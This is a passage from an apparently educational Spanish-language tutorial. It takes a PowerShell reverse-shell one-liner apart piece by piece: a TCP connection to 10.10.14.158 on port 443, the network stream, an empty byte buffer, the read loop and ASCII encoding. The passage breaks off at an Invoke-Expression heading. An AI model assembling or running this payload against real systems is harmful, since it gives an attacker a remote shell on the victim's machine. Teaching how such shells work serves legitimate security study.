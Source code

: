 ### Binding A Socket

```r
"$client = New-Object System.Net.Sockets.TCPClient(10.10.14.158,443);
```

Establece/evalúa la variable `$client` igual a (`=`) el cmdlet `New-Object`, que crea una instancia del objeto .NET framework `System.Net.Sockets.TCPClient`. El objeto del framework .NET se conectará con el socket TCP listado en los paréntesis `(10.10.14.158,443)`. El punto y coma (`;`) asegura que los comandos y el código se ejecuten secuencialmente.

### Setting The Command Stream

```r
$stream = $client.GetStream();
```

Establece/evalúa la variable `$stream` igual a (`=`) la variable `$client` y el método del framework .NET llamado [GetStream](https://docs.microsoft.com/en-us/dotnet/api/system.net.sockets.tcpclient.getstream?view=net-5.0) que facilita las comunicaciones de red. El punto y coma (`;`) asegura que los comandos y el código se ejecuten secuencialmente.

### Empty Byte Stream

```r
[byte[]]$bytes = 0..65535|%{0}; 
```

Crea un tipo de array byte (`[]`) llamado `$bytes` que devuelve 65,535 ceros como los valores en el array. Esto es esencialmente un byte stream vacío que se dirigirá al listener TCP en una caja de ataque en espera de una conexión.

### Stream Parameters

```r
while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0)
```

Inicia un bucle `while` que contiene la variable `$i` establecida igual a (`=`) el método `$stream.Read` del framework .NET. Los parámetros: buffer (`$bytes`), offset (`0`) y count (`$bytes.Length`) están definidos dentro de los paréntesis del método.

### Set The Byte Encoding

```r
{;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes, 0, $i);
```

Establece/evalúa la variable `$data` igual a (`=`) una clase del framework .NET de codificación [ASCII](https://en.wikipedia.org/wiki/ASCII) que se utilizará junto con el método `GetString` para codificar el byte stream (`$bytes`) en ASCII. En resumen, lo que escribamos no solo se transmitirá y recibirá como bits vacíos, sino que se codificará como texto ASCII. El punto y coma (`;`) asegura que los comandos y el código se ejecuten secuencialmente.

### Invoke-Expression
